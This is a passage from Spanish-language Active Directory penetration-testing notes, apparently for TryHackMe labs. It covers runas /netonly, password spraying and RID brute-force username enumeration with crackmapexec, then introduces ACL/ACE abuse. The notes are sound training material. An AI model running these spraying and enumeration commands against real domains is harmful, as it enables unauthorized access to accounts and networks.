 Una vez ejecutado este comando, se le solicitará una contraseña. Tenga en cuenta que, dado que añadimos el parámetro /netonly, las credenciales no serán verificadas directamente por un controlador de dominio para que acepte cualquier contraseña. Aún necesitamos confirmar que las credenciales de red se hayan cargado correctamente.

**Nota:** Si usa su propio equipo Windows, asegúrese de ejecutar el primer símbolo del sistema como administrador. Esto inyectará un token de administrador en CMD. Si ejecuta herramientas que requieren privilegios de administrador local desde su CMD generado por Runas, el token ya estará disponible. Esto no le otorga privilegios de administrador en la red, pero garantiza que cualquier comando local que ejecute se ejecute con privilegios de administrador.


6. **Password spraying**

Es una técnica de ataque en la que se **prueba un pequeño conjunto de contraseñas comunes en muchas cuentas**. A diferencia de los ataques de fuerza bruta, este ataque evita el bloqueo de cuentas al probar cada cuenta con solo unos pocos intentos, aprovechando las malas prácticas de contraseñas comunes en muchas organizaciones. 

```shell-session
user@t$ crackmapexec smb <IP> -u <users.txt> -p <passwords.txt>
```

El símbolo `[+]` en la línea de salida indica que hemos encontrado un par de credenciales válido.

7. Fuerza bruta para descubrir nombres de usuario (RID bruteforce)

```
crackmapexec smb <dominio> -u '<user>' -p '<pass>' --rid-brute 1500
```

Ejemplo si podemos listar de forma anónima:

```
crackmapexec smb haystack.thm.corp -u 'anonymous' -p '' --rid-brute 1500
```

Para crear la lista de usuarios válidos:

```
crackmapexec smb <dominio> -u 'anonymous' -p '' --rid-brute 1500 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
```


8. Credenciales de inicio de sesión automático.


# Explotación de ACEs

## Delegación de permisos y ACL

Las vulnerabilidades de delegación de permisos suelen denominarse ataques basados en ACL. AD permite a los administradores configurar **entradas de control de acceso (ACE)** que rellenan las **listas de control de acceso discrecional (DACL)**, de ahí el nombre de ataques basados en ACL. 

Casi cualquier **objeto AD puede protegerse con ACE, que describen los permisos permitidos y denegados que cualquier otro objeto AD tiene sobre el objeto de destino**.
